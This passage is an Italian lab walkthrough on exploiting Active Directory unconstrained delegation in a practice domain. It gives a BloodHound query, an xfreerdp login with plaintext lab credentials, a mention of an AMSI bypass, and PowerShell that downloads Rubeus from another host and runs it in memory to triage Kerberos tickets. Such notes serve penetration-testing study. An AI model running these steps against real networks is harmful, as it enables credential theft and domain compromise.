 ### **UNCOSTRAINED DELEGATIONS**

Per trovarle all'interno di BloodHound puoi selezionare la query precompilata o lanciare la seguente
```
MATCH (c {unconstraineddelegation:true}) return c
```
![[Pasted image 20230911104551.png]]
Per exploitarla accediamo al pc con uno degli account ottenuti precedentemente
```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```
e bypassiamo l'amsi come abbiamo già fatto
Poi avviamo Rubeus sulla macchina
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.6:8080/rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```

